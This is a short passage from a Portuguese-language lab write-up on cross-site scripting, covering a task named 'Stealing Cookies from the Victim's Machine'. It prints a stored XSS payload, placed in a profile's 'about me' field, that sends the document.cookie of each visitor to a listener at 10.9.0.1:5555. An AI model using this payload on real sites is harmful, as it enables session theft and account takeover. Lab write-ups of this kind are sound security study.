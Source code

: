 
###  Task 3: Stealing Cookies from the Victim’s Machine

Na tarefa anterior, podíamos apenas ver a cookie pelo user, mas não pelo attacker. O objetivo aqui é fazer com que Alice consiga ver as cookies de Boby.

Escrevemos o seguinte código no "about me" da Alice:

```
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```

Agora, quando visitamos o perfil do Boby, conseguimos ver as cookies dele.

<img src="images/task.boby.png" width="600" height="400">

